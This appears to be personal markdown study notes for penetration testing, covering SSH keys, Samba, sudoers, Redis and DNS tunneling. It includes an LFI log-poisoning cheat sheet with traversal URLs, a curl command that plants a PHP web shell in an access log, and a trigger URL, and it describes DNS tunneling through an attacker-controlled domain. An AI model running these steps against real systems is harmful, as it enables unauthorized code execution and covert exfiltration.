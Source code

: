 
# How SSH Key-Based Authentication Works
---

## Overview

SSH key-based authentication lets you log into a remote system **without a password**, using a **cryptographic key pair**:

- **Private Key** → stays on your machine
- **Public Key** → copied to the server (in `~/.ssh/authorized_keys`)

---

## Step-by-Step Authentication Process

### 1. Client Offers Key Type

The client begins the SSH connection and tells the server:
> "I want to authenticate using an `ssh-rsa` key."

---

### 2.  Server Checks `authorized_keys`

The server checks:

```
/home/<user>/.ssh/authorized_keys
```

It looks for a **matching public key**.

---

### 3.  Challenge–Response Authentication

- **Server** sends a random challenge (nonce)
- **Client** signs the challenge using their private key

---

### 4.  Server Verifies the Signature

- Using the public key from `authorized_keys`, the server checks:
  > "Did this private key really sign my challenge?"

 If the signature is valid → authentication **succeeds**  
 Otherwise → **access denied**

---

## What Goes in `~/.ssh/authorized_keys`

An example entry:

```
ssh-rsa AAAAB3... user@machine
```

- `ssh-rsa` → Key type
- `AAAAB3...` → Base64-encoded public key
- `user@machine` → Optional comment

-------------------------------------------------------------------
# What's SSH tunneling 




-----------------------------------------------------------------
# Samba 
Samba is a Linux/Unix implementation of the SMB/CIFS protocol that lets non‑Windows machines act as file‐ and print‐servers (or join Windows domains). At a high level:

## Services & Files  
- **Daemons**  
  - `smbd` – file/printer sharing  
  - `nmbd` – NetBIOS name service  
  - `winbindd` – AD user/group mapping  
- **Config**: `/etc/samba/smb.conf`  
- **Logs**: `/var/log/samba/`


## List shares: 
```bash
smbclient -L //<host> -U <user> 
```

## Mount shares:
```bash 
mount -t cifs //server/share /mnt \
  -o username=dora,password=Secret123
```

------ 


# LFI vs RFI
## LFI
    You can read arbitrary files (e.g. /etc/passwd).
    You may escalate to RCE by poisoning logs (e.g. access your PHP code into access.log and then include it).
    No direct outbound HTTP fetch is needed—everything is local.

## RFI
    The app fetches PHP code from your server and executes it immediately.
    You get straight up remote shell or backdoor.
    Modern PHP ships with allow_url_include=Off to block this by default.


# LFI → Log Poisoning → RCE Cheat Sheet

1. **Identify log file path**  
  Look at the config file before 
   ```bash
   # Try common Apache log locations via LFI
   http://TARGET/?something=../../../../../../var/log/apache2/access.log
   http://TARGET/?something=../../../../../../var/log/httpd/access_log
   ```
2. **Inject php code**
  ```bash 
  curl -A "<?php system(\$_GET['cmd']); ?>" http://TARGET/
  ```
3. **Trigger LFI to include the poisoned log**
http://TARGET/image.php?img=../../../../../../var/log/apache2/access.log%00&cmd=id


----------------------------------
# The sudoers file 

Configuration file that defines who (which users or groups) is allowed to run what commands as which users (usually root), and how (with or without password). It’s parsed by the sudo command and controls all of sudo’s behavior.
User specifications
## Grant specific users or groups the ability to run commands as other users:
EXP:
user    host = (run-as) options: commands
alice     ALL  = (ALL)       ALL
bob       web  = (root)      NOPASSWD: /usr/bin/systemctl restart apache2
%admins    ALL = (ALL:ALL)   ALL

----------------------------------
# Redis Database 
Redis is an open‑source, in‑memory data store often used as a cache or simple database. At its core it holds keys and values (think of it like a really fast hash table).

## Key Concept
- Data store: You connect with redis-cli and can run commands like SET key value and GET key.
- Persistence: Even though it keeps data in memory, Redis can “dump” its state to disk (an RDB file) or append every write to a log (AOF).
- Replication: You can configure one Redis server to replicate another. The “slave” logs every write the “master” does.

--------------------------------------------------
# DNS Tunneling 
## Attacker‐controlled DNS domain
   You register a domain you control (e.g. evil.example.com) and point its NS records to a DNS server you operate.

## Client setup
    On the restricted network, you run a client tool (e.g. iodine, dnscat2) that:
    Intercepts traffic destined for some “tunneled” service (e.g. local port 8080).
    Encodes that traffic in DNS queries to subdomains of your domain:
    <base32-or-base64-payload>.evil.example.com

## DNS server (server side)
Your authoritative DNS server receives these queries. A custom backend decodes the embedded payload from the subdomain, processes it (e.g. forwards to a web proxy or SSH server), then encodes the response back into DNS record data.

## Round‑trip
The client decodes the DNS response data to reconstruct the tunneled protocol’s response, and presents it to the local application.
